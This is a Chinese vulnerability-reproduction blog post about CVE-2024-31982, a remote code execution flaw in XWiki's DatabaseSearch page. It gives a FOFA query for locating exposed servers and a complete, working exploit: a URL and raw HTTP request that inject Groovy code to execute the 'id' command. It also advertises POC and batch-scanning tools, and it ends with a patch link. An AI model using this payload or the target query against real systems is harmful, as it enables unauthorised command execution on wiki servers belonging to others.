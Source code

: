 #  XWiki DatabaseSearch 存在远程命令执行漏洞CVE-2024-31982 附POC   
南风漏洞复现文库  南风漏洞复现文库   2024-06-24 22:59  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. XWiki DatabaseSearch 简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
XWiki Platform是XWiki基金会的一套用于创建Web协作应用程序的Wiki平台。  
## 2.漏洞描述  
  
XWiki Platform是XWiki基金会的一套用于创建Web协作应用程序的Wiki平台。XWiki Platform 存在安全漏洞，该漏洞源于 XWiki 的数据库搜索允许通过搜索文本远程执行代码。这允许公共 wiki 的任何访问者或封闭 wiki 的用户远程执行代码，因为默认情况下所有用户都可以访问数据库搜索。  
  
CVE编号:CVE-2024-31982  
  
CNNVD编号:CNNVD-202404-1609  
  
CNVD编号:  
## 3.影响版本  
  
XWiki Platform  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a1rkzfnBLcMhicnoLbxRKqYwKvELByZADzgT1UKqxA24BW49SibWcM9kzOe5eUbx1RhDCBqs1lbogQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
XWiki DatabaseSearch 存在远程命令执行漏洞  
## 4.fofa查询语句  
  
body="data-xwiki-reference"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/bin/get/Main/DatabaseSearch?outputSyntax=plain&text=%7D%7D%7D%7B%7Basync%20async=false%7D%7D%7B%7Bgroovy%7D%7Dthrow%20new%20Exception%28%27id%27.execute%28%29.text%29%3B%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D%20  
  
漏洞数据包：  
```
GET /bin/get/Main/DatabaseSearch?outputSyntax=plain&text=%7D%7D%7D%7B%7Basync%20async=false%7D%7D%7B%7Bgroovy%7D%7Dthrow%20new%20Exception%28%27id%27.execute%28%29.text%29%3B%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D%20 HTTP/1.1
Host: xxx.xxx.xxx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a1rkzfnBLcMhicnoLbxRKqYINqXErux9P5mmiaMtDTuPkHsl0bcoyl9mGJnhZxtKhiaKw2VKycCXT3Q/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现10 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a1rkzfnBLcMhicnoLbxRKqY3BUlNPibe3qicCXic2exLCfmyBfkvcdnbQrxXRrrKKM8pSibIxlCgBdA3w/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a1rkzfnBLcMhicnoLbxRKqY5HUMBFoShzXBjziaI9y1O9fo0iawcRaicySib1DvIaiczibKdoD0C2LqPk0g/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a1rkzfnBLcMhicnoLbxRKqY6ziaibEj0PTD97ibQfiaWYWonntXQibmxXxlr8Bux9AicTPaL2znjZPkO2wQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a1rkzfnBLcMhicnoLbxRKqYIJ314BUUDbQ6iblCKSsF3xRicP8hyibH5ZhFShBMxGce6bIG7tbSo5LWQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a1rkzfnBLcMhicnoLbxRKqYGte71NW40u1QakeTT9SteXlYSkTJZUKk7QvTAMTjFFtlH0UdAEd2mg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a1rkzfnBLcMhicnoLbxRKqYLf25iaAQEWuzUQ4PBkoAcM4EW9hTiakdMgicmUTRakBQyyjymEIr7V0AA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁 https://github.com/xwiki/xwiki-platform/security/advisories/GHSA-2858-8cfx-69m9  
## 8.往期回顾  
  
  
  
